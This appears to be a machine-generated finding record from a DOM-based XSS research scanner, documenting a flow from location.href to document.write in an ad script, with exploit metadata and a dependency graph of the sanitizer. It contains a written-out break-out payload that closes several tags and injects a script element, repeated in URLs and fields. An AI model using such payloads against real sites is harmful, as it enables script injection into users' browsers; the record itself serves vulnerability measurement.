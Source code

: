 // Finding: 1ba1c937-7037-49c5-ae2c-499ffe47cdb5
// Finding.url: https://example197.com/melfnt/mad-world
// Finding.parentloc: https://example197.com/melfnt/mad-world##'></iframe></style></script></object></embed></textarea><script>taintfoxLog('d37dea570f594614abff54f32ee661c8')</script><!--/*
// Finding.domain: example197.com
// Finding.base_domain: example197.com
// Finding.source: location.href
// Finding.sink: document.write
// Sanitizer.score: 1
// Sanitizer.name: SekindoClientDetections_URL/this.setInfo
// Sanitizer.location: https://live.example5.com/live/liveView.php?s=99095&cbuster=2146700111&pubUrl=https://example197.com/melfnt/mad-world%23%23%27%3E%3C/iframe%3E%3C/style%3E%3C/script%3E%3C/object%3E%3C/embed%3E%3C/textarea%3E%3Cscript%3EtaintfoxLog(%27d37dea570f594614abff54f32ee661c8%27)%3C/script%3E%3C!--/*&x=400&y=250&vp_content=plembedf6lthsognvur&vp_template=3691&subId=[SUBID_ENCODED] - SekindoClientDetections_URL/this.setInfo:621:7
// Finding.begin: 472
// Finding.end: 649
// Finding.original_uuid: b034a2bb-c3d4-48c3-a97d-c02006cc069e
// Finding.TwentyFiveMillionFlowsId: -1314716644
// Finding.script: https://live.example5.com/live/liveView.php?s=99095&cbuster=2146700111&pubUrl=https://example197.com/melfnt/mad-world%23%23%27%3E%3C/iframe%3E%3C/style%3E%3C/script%3E%3C/object%3E%3C/embed%3E%3C/textarea%3E%3Cscript%3EtaintfoxLog(%27d37dea570f594614abff54f32ee661c8%27)%3C/script%3E%3C!--/*&x=400&y=250&vp_content=plembedf6lthsognvur&vp_template=3691&subId=[SUBID_ENCODED]
// Finding.line: 914
// Exploit.uuid: d37dea57-0f59-4614-abff-54f32ee661c8
// Exploit.success: false
// Exploit.status: validated
// Exploit.method: C
// Exploit.type: html
// Exploit.token: attribute
// Exploit.content: src
// Exploit.quote_type: '
// Exploit.tag: script
// Exploit.break_out: #'></iframe></style></script></object></embed></textarea><script>
// Exploit.break_in: </script><!--/*
// Exploit.payload: #'></iframe></style></script></object></embed></textarea><script>taintfoxLog(1)</script><!--/*
// Exploit.begin_taint_url: 0
// Exploit.end_taint_url: 38
// Exploit.replace_begin_url: 38
// Exploit.replace_end_url: 38
// Exploit.replace_begin_param: 289
// Exploit.replace_end_param: 289
// Issues.LargestEncodeAttrStringChain: 0
// Issues.LargestTextFragmentEncodeChainLength: 0
// Issues.HasApproximation: false
// Issues.HasMissingImplementation: false
// Issues.HasInfiniteRegexWithFunctionReplacer: false
// Issues.MergedSplitAndJoins: false
// Issues.HasUrlInRhsOfReplace: false
// Issues.HasUrlInLhsOfReplace: false
// Issues.HasCookieValueInLhsOfreplace: false
// Issues.HasCookieValueInRhsOfreplace: false
// Issues.HasCookieValueInMatchPattern: false
// Issues.HasCookieValueInExecPattern: false
// Issues.RemovedLRConcats: false
// Issues.RemovedReplaceArtifacts: false
// Issues.HasUrlInMatchPattern: false
// Issues.HasUrlInExecPattern: false
// Issues.RemovedNOPreplaces: false
// Issues.Known_sanitizer: false
// DepGraph.hash: 1434363687
// DepGraph.sanitizer_hash: 221784118

digraph cfg {
n0 [shape=house, label="Input: x"];
n1 [shape=ellipse, label="encodeURIComponent"];
n2 [shape=box, label="Var: x"];
n3 [shape=ellipse, label="."];
n4 [shape=box, label="Lit: &pubUrlAuto="];
n5 [shape=ellipse, label="."];
n6 [shape=box, label="Lit: https://live.example5.com/live/liveView.php?s=99095&cbuster=214....nvur&vp_template=3691&subId=[SUBID_ENCODED]&cbuster=1620097789"];
n7 [shape=ellipse, label="str_replace_once"];
n8 [shape=box, label="Lit: SEKXLEN"];
n9 [shape=box, label="Lit: 400"];
n10 [shape=box, label="Var: x"];
n11 [shape=ellipse, label="str_replace_once"];
n12 [shape=box, label="Lit: SEKYLEN"];
n13 [shape=box, label="Lit: 250"];
n14 [shape=box, label="Var: x"];
n15 [shape=ellipse, label="str_replace_once"];
n16 [shape=box, label="Lit: '"];
n17 [shape=box, label="Lit: %27"];
n18 [shape=box, label="Var: x"];
n19 [shape=ellipse, label="."];
n20 [shape=box, label="Lit: &csuuid=6090bafd7d72f"];
n21 [shape=ellipse, label="."];
n22 [shape=box, label="Lit: &videoType=normal"];
n23 [shape=box, label="Var: x"];
n24 [shape=doubleoctagon, label="Return: x"];
n2 -> n0;
n1 -> n2;
n3 -> n4;
n3 -> n1;
n5 -> n6;
n5 -> n3;
n10 -> n5;
n7 -> n8;
n7 -> n9;
n7 -> n10;
n14 -> n7;
n11 -> n12;
n11 -> n13;
n11 -> n14;
n18 -> n11;
n15 -> n16;
n15 -> n17;
n15 -> n18;
n19 -> n15;
n19 -> n20;
n21 -> n19;
n21 -> n22;
n23 -> n21;
n24 -> n23;
}